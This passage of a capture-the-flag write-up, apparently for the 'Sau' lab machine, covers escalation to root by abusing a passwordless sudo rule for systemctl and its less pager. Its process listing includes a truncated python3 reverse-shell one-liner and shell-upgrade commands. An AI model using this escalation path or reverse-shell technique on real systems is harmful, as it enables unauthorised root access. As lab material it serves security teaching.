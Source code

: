 ## Shell as root

### Enumeration

The puma user can run some `systemctl` commands as root without a password using `sudo`:

```
puma@sau:~$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service

```

Running this command prints the status of the service:

```
puma@sau:~$ /usr/bin/systemctl status trail.service
● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset: enabled)
     Active: active (running) since Thu 2024-01-04 13:33:54 UTC; 2h 25min ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 891 (python3)
      Tasks: 10 (limit: 4662)
     Memory: 24.4M
     CGroup: /system.slice/trail.service
             ├─ 891 /usr/bin/python3 server.py
             ├─1234 /bin/sh -c logger -p auth.info -t "maltrail[891]" "Failed p…
             ├─1235 /bin/sh -c logger -p auth.info -t "maltrail[891]" "Failed p…
             ├─1244 sh
             ├─1245 python3 -c import socket,os,pty;s=socket.socket(socket.AF_I…
             ├─1246 /bin/sh
             ├─1248 script /dev/null -c bash
             ├─1249 bash
             └─1280 /usr/bin/systemctl status trail.service

```

### Exploit Less

If the screen is not big enough to handle the output of `systemctl`, it gets passed to `less`. In fact, because I’m in a weird TTY, when I run with `sudo`, this happens:

```
puma@sau:~$ sudo /usr/bin/systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN)● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset:>
     Active: active (running) since Thu 2024-01-04 13:33:54 UTC; 2h 25min ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 891 (python3)
      Tasks: 12 (limit: 4662)
     Memory: 26.7M
     CGroup: /system.slice/trail.service
             ├─ 891 /usr/bin/python3 server.py
             ├─1234 /bin/sh -c logger -p auth.info -t "maltrail[891]" "Failed p>
             ├─1235 /bin/sh -c logger -p auth.info -t "maltrail[891]" "Failed p>
             ├─1244 sh
             ├─1245 python3 -c import socket,os,pty;s=socket.socket(socket.AF_I>
             ├─1246 /bin/sh
             ├─1248 script /dev/null -c bash
```